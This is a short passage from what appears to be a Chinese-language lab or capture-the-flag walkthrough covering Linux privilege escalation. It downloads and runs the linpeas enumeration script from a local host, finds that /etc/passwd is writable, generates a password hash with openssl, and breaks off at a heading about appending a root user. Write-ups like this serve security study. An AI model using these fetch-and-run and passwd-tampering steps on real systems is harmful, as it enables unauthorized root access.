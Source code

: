 ```
wget 192.168.1.3/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![image-20250325140447863](assets/image-20250325140447863.png)

![image-20250325140538867](assets/image-20250325140538867.png)

/etc/passwd文件可写



### 利用openssl生成密码

```
openssl passwd 123
```

![image-20250325141006560](assets/image-20250325141006560.png)



### 追加root用户
